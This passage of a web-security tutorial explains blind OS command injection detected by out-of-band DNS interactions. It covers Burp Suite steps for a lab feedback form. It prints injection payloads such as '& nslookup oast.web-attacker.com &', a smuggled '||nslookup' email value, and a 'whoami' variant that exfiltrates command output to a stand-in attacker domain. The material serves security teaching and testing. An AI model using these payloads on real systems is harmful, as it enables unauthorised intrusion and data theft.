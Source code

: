 An attacker can use an injected command that will trigger an [out-of-band (OAST)](https://portswigger.net/burp/application-security-testing/oast) network interaction with a system that they control, using OAST techniques. For example:
```txt
& nslookup oast.web-attacker.com &
```
This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor their system to see if the lookup happens, confirming a command injection vulnerability.

To do this via Burp Suite Professional, follow these steps:
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
3. Right-click and select **Insert Collaborator payload** to insert a Burp Collaborator subdomain where indicated in the modified `email` parameter.

Another technique is using out-of-band channel to easily exfiltrate output from injected commands:
```txt
& nslookup `whoami`.oast.web-attacker.com &
```
